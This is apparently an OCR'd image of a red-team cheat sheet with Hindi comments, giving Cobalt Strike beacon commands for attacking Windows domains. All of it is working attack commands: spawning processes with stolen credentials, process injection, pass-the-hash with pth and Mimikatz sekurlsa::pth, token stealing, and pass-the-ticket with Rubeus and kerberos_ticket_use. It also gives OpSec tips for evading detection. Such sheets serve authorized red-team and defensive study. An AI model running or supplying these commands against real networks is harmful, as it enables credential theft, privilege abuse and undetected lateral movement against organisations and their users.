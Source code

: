 ## नए क्रेडेंशियल्स के साथ प्रक्रिया लॉन्च करें
spawnas [domain\username] [password] [listener] # ऐसा किसी निर्देशिका से करें जिसमें पढ़ने की अनुमति हो जैसे: cd C:\
## make_token की तरह, यह Windows घटना 4624 उत्पन्न करेगा: एक खाता सफलतापूर्वक लॉग ऑन हुआ लेकिन लॉगऑन प्रकार 2 (LOGON32_LOGON_INTERACTIVE) के साथ। यह कॉलिंग उपयोगकर्ता (TargetUserName) और अनुकरण किए गए उपयोगकर्ता (TargetOutboundUserName) का विवरण देगा।

## प्रक्रिया में इंजेक्ट करें
inject [pid] [x64|x86] [listener]
## OpSec के दृष्टिकोण से: जब तक आपको वास्तव में आवश्यकता न हो, क्रॉस-प्लेटफ़ॉर्म इंजेक्शन न करें (जैसे x86 -> x64 या x64 -> x86)।

## Pass the hash
## इस संशोधन प्रक्रिया के लिए LSASS मेमोरी का पैचिंग आवश्यक है जो एक उच्च जोखिम वाली क्रिया है, स्थानीय व्यवस्थापक विशेषाधिकार की आवश्यकता होती है और यदि प्रोटेक्टेड प्रोसेस लाइट (PPL) सक्षम है तो यह सभी तरह से व्यवहार्य नहीं है।
pth [pid] [arch] [DOMAIN\user] [NTLM hash]
pth [DOMAIN\user] [NTLM hash]

## Mimikatz के माध्यम से हैश पास करें
mimikatz sekurlsa::pth /user:&#x3C;username> /domain:&#x3C;DOMAIN> /ntlm:&#x3C;NTLM HASH> /run:"powershell -w hidden"
## /run के बिना, mimikatz एक cmd.exe स्पॉन करता है, यदि आप एक उपयोगकर्ता के रूप में डेस्कटॉप पर चल रहे हैं, तो वह शेल देखेगा (यदि आप SYSTEM के रूप में चल रहे हैं तो आप ठीक हैं)
steal_token &#x3C;pid> # Mimikatz द्वारा बनाई गई प्रक्रिया से टोकन चुराएं

## टिकट पास करें
## एक टिकट का अनुरोध करें
execute-assembly C:\path\Rubeus.exe asktgt /user:&#x3C;username> /domain:&#x3C;domain> /aes256:&#x3C;aes_keys> /nowrap /opsec
## नए टिकट के साथ उपयोग करने के लिए एक नया लॉगऑन सत्र बनाएं (समझौता किए गए को अधिलेखित न करने के लिए)
make_token &#x3C;domain>\&#x3C;username> DummyPass
## एक पॉवशेल सत्र से हमलावर मशीन में टिकट लिखें &#x26; इसे लोड करें
[System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\jkingTGT.kirbi", [System.Convert]::FromBase64String("[...ticket...]"))
kerberos_ticket_use C:\Users\Administrator\Desktop\jkingTGT.kirbi
